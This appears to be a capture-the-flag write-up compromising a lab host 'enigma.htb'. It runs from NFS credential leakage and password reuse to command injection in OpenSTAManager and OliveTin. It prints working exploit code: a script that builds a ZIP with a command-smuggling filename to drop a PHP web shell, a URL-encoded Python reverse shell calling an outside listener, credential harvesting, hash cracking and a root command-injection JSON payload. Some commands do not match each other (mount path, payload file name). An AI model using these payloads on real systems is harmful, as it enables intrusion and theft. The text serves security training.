


## Enumeration

### Nmap Scan

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-02 10:09 IST
Nmap scan report for 10.129.239.191
Host is up (0.071s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp    open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://enigma.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
110/tcp   open  pop3     Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_pop3-capabilities: CAPA SASL TOP RESP-CODES PIPELINING STLS AUTH-RESP-CODE UIDL
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33565/udp6  mountd
|   100005  1,2,3      44975/udp   mountd
|   100005  1,2,3      53633/tcp   mountd
|   100005  1,2,3      53927/tcp6  mountd
|   100021  1,3,4      40409/tcp6  nlockmgr
|   100021  1,3,4      40923/udp   nlockmgr
|   100021  1,3,4      41189/tcp   nlockmgr
|   100021  1,3,4      50487/udp6  nlockmgr
|   100024  1          44473/tcp   status
|   100024  1          56301/udp   status
|   100024  1          57379/tcp6  status
|   100024  1          58900/udp6  status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
143/tcp   open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: LOGINDISABLEDA0001 IMAP4rev1 OK ID LOGIN-REFERRALS post-login SASL-IR capabilities listed Pre-login IDLE have ENABLE STARTTLS more LITERAL+
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: post-login IDLE ID LOGIN-REFERRALS have SASL-IR capabilities listed Pre-login ENABLE AUTH=PLAINA0001 IMAP4rev1 OK more LITERAL+
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
995/tcp   open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: CAPA USER TOP RESP-CODES PIPELINING SASL(PLAIN) AUTH-RESP-CODE UIDL
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_ssl-date: TLS randomness does not represent time
2049/tcp  open  nfs_acl  3 (RPC #100227)
41189/tcp open  nlockmgr 1-4 (RPC #100021)
44473/tcp open  status   1 (RPC #100024)
47403/tcp open  mountd   1-3 (RPC #100005)
51443/tcp open  mountd   1-3 (RPC #100005)
53633/tcp open  mountd   1-3 (RPC #100005)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.20 seconds

```

### NFS ACL

From the Nmap scan output, we can see that NFS (Network File System) is running on the machine, with NFSv3/v4 and `mountd` exposed

`mountd` is a service on Unix and Linux systems that handles file system mount requests from remote machines using the NFS protocol.

Let us enumerate the `mountd` service using `showmount` to check for any exportable directories:-

```bash
└─$ showmount -e 10.129.239.191
Export list for 10.129.239.191:
/srv/nfs/onboarding *
```

Ok, this looks interesting. An `onboarding` directory. Let us try to mount it on our system and export its contents:-

Create a mount point:-

```bash
sudo mkdir /mnt/nfs
```

Then mount,

```bash
sudo mount -t nfs <MACHINE_IP>:/home /mnt/nfs
```

Checking the mount:-



Fig1: World-Readable Mount

`New_Employee_Access.pdf` contains,


Fig2: Contents of New_Employee_Access.pdf

user Kevin’s credentials for their web mail service at `mail001.enigma.htb` !

`kevin:Enigma2024!`

## Roundcube Webmail

Adding the `mail001` subdomain to our hosts file, and then visiting it, we encounter a login page:-


Fig3: Roundcube Webmail Login Page

Using `kevin:Enigma2024!` , we get into the email dashboard of Kevin:-


Fig4: Email Inbox of `kevin`

### Credential Reuse by User `sarah`

Not finding much on user `kevin` `s dashboard, I decided to try if the password `Enigma2024!` for the user `sarah` too. And it was valid!

We can see there is an interesting email in `sarah` ’s inbox:-


Fig5: Email Inbox of `sarah`

We have got access to an account named `admin` in to the service OpneSTAManager running at subdomain `support_001.enigma.htb` , using the credentials `admin:Ne3s4rtars78s` 

## `admin` Access to OpenSTAManager


Fig6: OpenSTAManager Login Portal

Using the login credentials we obtained, we can login as the `admin` user to OpenSTAManager and encounter its dashboard:-


Fig7: OpenSTAManager `admin` dashboard


Fig8: OpenSTAManager version information

From Fig8, we can see the OpenSTAManager in use is `2.9.8` 

Searching for vulnerabilities associated with this version of OpenSTAManager, leads us to CVE-2025-69212, an OS Command Injection vulnerability.

### CVE-2025-69212 - OS Command Injection

According to https://github.com/advisories/GHSA-25fp-8w8p-mx36, an authenticated attacker can upload a ZIP file containing a .p7m file with a malicious filename to execute arbitrary system commands on the server. Affected versions of OpenSTAManager are 2.9.8 and before.

Code for creating a malicious ZIP file using the PoC in the advisory as reference:-

```python
import zipfile

cmd = "cd files && echo '<?php system($_GET[\"c\"]); ?>' > SHELL.php"
malicious_filename = f'invoice.p7m";{cmd};echo ".p7m'

with zipfile.ZipFile('exploit.zip', 'w') as zf:
    zf.writestr(malicious_filename, b"DUMMY_P7M_CONTENT")
```

Uploading the `exploit.zip` file in the vulnerable sales invoice upload section (Fig9):-


Fig9: Vulnerable Upload Component

```jsx
POST /actions.php HTTP/1.1
Host: support_001.enigma.htb
Content-Length: 761
X-Requested-With: XMLHttpRequest
Accept-Language: en-GB,en;q=0.9
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBbzArC9BZSP6nu7k
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Origin: http://support_001.enigma.htb
Referer: http://support_001.enigma.htb/controller.php?id_module=14
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=57qun8h8vps2erdsa122pf0ubu
Connection: keep-alive

------WebKitFormBoundaryBbzArC9BZSP6nu7k
Content-Disposition: form-data; name="blob1"; filename="exploit.zip"
Content-Type: application/zip

PK
```


Fig10: Exploit Sent

According to the PoC, the 500 error is expected as XML parsing fails after command execution.

Let us check if our webshell is working or not with an `id` request through `curl`:-

```jsx
curl "http://support_001.enigma.htb/files/SHELL.php?c=id"
```


Fig11: Working Webshell

From Fig11, we can see that we’ve got a working web shell.

Using the payload:

```bash
curl "http://support_001.enigma.htb/files/SHELL.php?c=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.16.100%22%2C8998%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27"
```

We get reverse-shell access as the user `www-data`


Fig12: Reverse shell as user `www-data`

#### MYSQL Credentials

While enumerating the system, I found the `config.inc.php` file in the OpenSTAManager directory.


Fig13: MYSQL user `brollin` ‘s credentials

From Fig13, we can see that we have obtained access to the MYSQL user `brollin` ’s credentials

`brollin:Fri3nds@9099`

Using `mysql` command to login as `brollin` :

```bash
mysql -u brollin -p'Fri3nds@9099'
```

Enumerating the MYSQL database we find user hashes in the table `zz_users` inside the `openstamanager` table:-


Fig14: User Hashes

Using `hashcat` to crack user `haris` ’s hash:-

```bash
hashcat -m 3200 -a 0 -w 3 -O hash.txt /usr/share/wordlists/rockyou.txt
```

We get the credentials as `haris:bestfriends` 

```bash
www-data@enigma:~/html/openstamanager$ su haris
Password: 
su: Authentication failure
www-data@enigma:~/html/openstamanager$ su haris
Password: 
haris@enigma:/var/www/html/openstamanager$ id
uid=1000(haris) gid=1000(haris) groups=1000(haris),100(users)
```

We are logged in as the user `haris` 

## Privilege Escalation

While enumerating for local listening connections using `netstat`  I discovered this:-

```bash
netstat -ano | grep 127.0.0.1
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
udp        0      0 127.0.0.1:32845         127.0.0.53:53           ESTABLISHED off (0.00/0/0)
udp        0      0 127.0.0.1:875           0.0.0.0:*                           off (0.00/0/0)
```

The local service on port `1337` seems to be anomalous. Let’s investigate it.

Using `netcat` to enumerate the service shows that its an internal web application:-

```bash
nc 127.0.0.1 1337
test
HTTP/1.1 400 Bad Request
Content-Type: text/plain; charset=utf-8
Connection: close

400 Bad Request
```

Sending a `curl` request to the webapp shows that its an `OlivTin` application.


Fig15: OliveTin Application

Also if we check running processes for OliveTin, we can see that its running the context of the `root` user. Ideal for privilege escalation.

```bash
ps aux | grep "Olive"
root        1522  0.0  0.4 1238736 16256 ?       Ssl  00:28   0:00 /usr/local/bin/OliveTin
haris       2276  0.0  0.0    6900  2412 pts/1    S+   00:57   0:00 grep --color=auto Olive
```

Enumerating the `OliveTin` binary:-

```bash
haris@enigma:/$ /usr/local/bin/OliveTin --version                                                                                           
INFO OliveTin is just printing the startup message  commit="d22bdeb" date="2026-02-14T20:41:10Z" version="3000.10.0"   
```

We can see that the `OliveTin` application is of version `3000.10.0`

### CVE-2026-27626 - OliveTin OS Command Injection

OliveTin version 3000.10.0 and earlier contain a critical OS command injection vulnerability through the `password` argument .

Using PoC at https://github.com/advisories/GHSA-49gm-hh7w-wfvf to confirm exploitation:-

```bash
curl -sS -X POST http://127.0.0.1:1337/api/StartActionAndWait \
  -H 'Content-Type: application/json' \
  --data-binary '{
    "actionId":"backup_database",
    "arguments":[
      {"name":"db_user","value":"backup_svc"},
      {"name":"db_pass","value":"test123"},
      {"name":"db_name","value":"production"}
    ]
  }'
```

The response confirmed the action executed:

```json
"actionTitle":"Backup Database"
"executionStarted":true
"executionFinished":true
```

Exploiting the vulnerability (to avoid shell quoting issues, I used Python to construct the JSON payload):-

```python
python3 - <<'PY' >/tmp/privesc.json
import json

print(json.dumps({
    "actionId": "backup_database",
    "arguments": [
        {"name": "db_user", "value": "backup_svc"},
        {"name": "db_pass", "value": "'; id > /tmp/res; #"},
        {"name": "db_name", "value": "production"}
    ]
}))
PY
```

Sending the req to OliveTin using `curl` :

```bash
curl -sS -X POST http://127.0.0.1:1337/api/StartActionAndWait \
  -H 'Content-Type: application/json' \
  --data-binary @/tmp/req.json
```

Checking the `/tmp/res` file’s contents:-

```bash
haris@enigma:/tmp$ cat res
uid=0(root) gid=0(root) groups=0(root)
```

OS command injection as `root` confirmed!

## Learnings

- Always, try the same password for other accounts before doing anything else. Tried for SSH, but didn’t try for Roundmail initially :)